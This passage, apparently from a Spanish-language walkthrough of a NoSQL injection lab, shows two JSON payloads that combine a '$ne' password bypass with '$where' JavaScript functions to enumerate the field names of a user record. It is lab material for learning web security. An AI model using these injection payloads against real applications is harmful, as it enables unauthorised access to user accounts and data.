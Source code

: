 ![](/assets/img/NoSQLI-Lab-4/image_20.png)

Comprobamos que el `segundo campo` es `username`

```
{
  "username": "carlos",
  "password": {
    "$ne": "testing"
  },
  "$where": "function(){ if(Object.keys(this)[1].match('username')) return 1; else 0; }"
}
```

![](/assets/img/NoSQLI-Lab-4/image_21.png)

Comprobamos que el `tercer campo` es `password`

```
{
  "username": "carlos",
  "password": {
    "$ne": "testing"
  },
  "$where": "function(){ if(Object.keys(this)[2].match('password')) return 1; else 0; }"
}
```
